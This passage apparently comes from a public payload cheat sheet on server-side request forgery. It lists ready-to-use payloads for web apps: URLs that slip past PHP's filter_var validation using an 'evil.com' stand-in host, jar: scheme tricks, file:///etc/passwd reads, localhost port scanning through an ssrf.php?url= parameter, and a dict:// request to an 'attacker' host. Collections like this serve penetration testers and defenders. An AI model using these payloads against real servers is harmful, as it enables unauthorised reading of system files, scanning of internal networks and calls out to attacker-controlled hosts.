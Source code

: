### Bypass PHP filter_var() Function

In PHP 7.0.25, `filter_var()` function with the parameter `FILTER_VALIDATE_URL` allows URL such as:

* `http://test???test.com`
* `0://evil.com:80;http://google.com:80/`

```php
<?php 
 echo var_dump(filter_var("http://test???test.com", FILTER_VALIDATE_URL));
 echo var_dump(filter_var("0://evil.com;google.com", FILTER_VALIDATE_URL));
?>
```

### Bypass Using JAR Scheme

This attack technique is fully blind, you won't see the result.

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server. Transforming the SSRF into a file read.

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```
